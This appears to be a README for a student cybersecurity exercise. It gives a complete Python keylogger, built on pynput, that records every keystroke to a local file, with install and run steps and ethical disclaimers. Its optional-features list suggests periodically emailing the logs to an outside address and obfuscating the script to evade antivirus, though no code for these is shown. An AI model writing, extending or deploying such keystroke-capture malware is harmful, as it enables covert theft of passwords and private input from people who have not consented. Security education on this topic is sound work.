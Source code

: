 # PRODIGY_CS_04
# Simple Keylogger

Create a basic keylogger program that records and logs keystrokes. Focus on logging the keys pressed and saving them to a file. 

Note: Ethical considerations and permissions are crucial for projects involving keyloggers.

* Ethical Considerations: Only use keyloggers for ethical purposes, such as testing your own systems or with explicit permission. Unauthorized use is illegal and unethical.

* Dependencies: We'll use the pynput library to capture keystrokes.


* Basic Workflow:

Capture keystrokes.
Record the keystrokes in a log file.


## Step-by-Step Implementation

### 1. Set Up Your Environment
First, make sure you have Python installed. You'll also need to install the pynput library. You can do this using pip:

pip install pynput

### 2. Import Necessary Libraries

from pynput.keyboard import Key, Listener
import logging

### 3. Set Up Logging

log_dir = ""  # You can specify a directory if needed
logging.basicConfig(filename=(log_dir + "key_log.txt"),
                    level=logging.DEBUG, format='%(asctime)s: %(message)s')

### 4. Define the Callback Function to Capture Keystrokes

def on_press(key):
    try:
        logging.info(str(key))
    except AttributeError:
        logging.info('Special key {0} pressed'.format(key))


### 5. Set Up and Start the Listener

with Listener(on_press=on_press) as listener:
    listener.join()


# Explanation of the Code

1. Imports: We import the necessary modules from pynput to listen to keyboard events and logging for recording the keystrokes.
 
2. Logging Configuration: We set up logging to record keystrokes to a file named key_log.txt.

3. Callback Function (on_press): This function is called every time a key is pressed. It logs the key pressed. If the key has a special representation (like Key.space), it logs a more readable message.

4. Listener: This is the main part of the program that listens for key presses and calls the on_press function whenever a key is pressed.

# Running the Keylogger

1. Save the script to a file, e.g., keylogger.py.

2. Run the script using Python:

python keylogger.py

# Stopping the Keylogger

To stop the keylogger, you can terminate the script (e.g., using Ctrl+C in the terminal).

## Important Notes

Permissions: Always ensure you have permission to use a keylogger on any system. 

Unauthorized use is illegal.

Security: Store and handle logged data securely to avoid misuse.

## Ethical Use Cases

Personal Use: Monitor your own computer to track keystrokes for personal analysis.

Parental Control: Monitor children's computer usage with consent and proper guidance.

Testing: Use in a controlled environment to test security software or systems.

## Additional Features (Optional)

Capture Keystroke Timing: Modify the logging format to include timestamps.

Send Logs via Email: Set up a function to periodically send the log file to a specified email address.

Obfuscation: Make the script less detectable by antivirus software (ensure ethical use).
